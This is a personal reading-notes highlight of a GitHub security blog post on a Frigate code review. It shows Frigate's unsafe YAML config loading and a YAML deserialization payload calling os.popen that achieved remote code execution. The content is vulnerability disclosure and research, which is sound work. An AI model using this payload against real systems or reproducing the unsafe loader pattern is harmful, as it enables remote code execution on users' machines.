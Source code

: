```yaml
---
author: Madison Oliver
aliases:
  - "Securing Our Home Labs: Frigate Code Review"
tags:
  - readwise/articles
url: https://github.blog/security/vulnerability-research/securing-our-home-labs-frigate-code-review/
date: 2024-12-19
---
```

# Securing Our Home Labs: Frigate Code Review

![rw-book-cover](https://github.blog/wp-content/uploads/2023/10/Security-DarkMode-4.png?fit=1200%2C630)

## Highlights


However, `load_config_with_no_duplicates` uses [`yaml.loader.Loader`](https://github.com/blakeblackshear/frigate/blob/5658e5a4cc7376504af9de5e1eff178939a13e7f/frigate/util/builtin.py#L90) which can **instantiate custom constructors**. A provided payload will be executed directly:
```python
 PreserveDuplicatesLoader.add_constructor(
	 yaml.resolver.BaseResolver.DEFAULT_MAPPING_TAG, map_constructor
 )
 return yaml.load(raw_config, PreserveDuplicatesLoader)
```
 In this scenario providing a payload like the following (invoking `os.popen` to run `touch /tmp/pwned`) was sufficient to achieve **remote code execution**
 ```yaml
 !!python/object/apply:os.popen
 - touch /tmp/pwned
```
> [View Highlight](https://read.readwise.io/read/01jffq2zgvrhfsd3bg3n7y89rc)

